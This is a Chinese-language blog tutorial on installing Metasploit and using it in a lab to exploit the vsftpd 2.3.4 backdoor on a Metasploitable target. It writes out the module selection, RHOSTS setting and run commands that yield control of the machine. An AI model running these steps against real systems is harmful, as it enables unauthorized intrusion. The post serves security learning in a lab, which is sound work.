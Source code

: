 ```yaml
---
title: Use metaspolit to check device vulnerability
date: 2019-2-26 08:00:00 +0800
categories: [ Security tools ]
tags: [ ]     # TAG names should always be lowercase
---
```


## 介紹
metaspolit 的名聲應該已經不用我來介紹了，如果不懂的請觀看他的[官方網站](https://www.metasploit.com/)

## 0x00 環境架設
大部份進行滲透測試的人員都會使用 kali 來當OS，因為他有豐富的滲透工具，
可以不用再自行安裝，不過其他版本的linux也是可以正常使用的
[下載教學](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers)

```
教學已經很簡要的把指令放在一起，linux 使用者可以直接執行下面這行，就會自動下載以及安奘

curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
chmod 755 msfinstall && \
./msfinstall
```
由於我只是因為一些研究需要用到這套工具沒有要使用其他工具，
因此我這邊使用的是ubuntu x86_64
https://www.tutorialspoint.com/metasploit/metasploit_discovery_scans.htm

### 架設 IOT 設備
架設的方式分成幾種
1. 直接拿實體機器跟你網路對連
2. 使用 firmware 模擬的技術，模擬出一種設備
    - 相關方式我會在別的 blog 中做介紹
3. 使用 metasploitable 來簡單架設環境

## 0x01 熟悉 metaspolit
我們可以輸入 help 來快速的觀看有哪些指令是可以使用的
```
msf5 > help
```
比較常用的
- **search** : Searches module names and descriptions
- **use** :  Selects a module by name
- **back** : Move back from the current context
- **exit** : Exit the console

之後有用到其他的再補

## 0x02 實際操作
### Class 1 metasploitable ftp expolit
首先輸入 msfconsole 進入操作界面

利用nmap -sV 去掃所有開port的 services 版本資訊
![](https://i.imgur.com/zNj75Sd.png)

上網查究可以發現 vsftpd 2.3.4 這個services 是存在著backdoor的

於是我們直接搜尋 metasploit 資料庫
```
search vsFTPd 2.3.4
```
會出現幾個資料庫選項，我們選擇下面這個
```
exploit/unix/ftp/vsftpd_234_backdoor
```
使用 use 指令來指定他
```
use exploit/unix/ftp/vsftpd_234_backdoor
```

輸入下面指令來顯示可以調整的參數
```
show options
```
![](https://i.imgur.com/HGlFE2T.png)

更改 RHOSTS 為 靶機ip位址
```
set RHOSTS 192.168.77.143
```
RPORT 維持是 21 port 即可

再來我們直接輸入 run，程式就會自動執行漏洞POC，完成後就可以得到機器控制權
![](https://i.imgur.com/UTcoZhT.png)

## tutorial
請參考 https://www.tutorialspoint.com/metasploit/metasploit_discovery_scans.htm

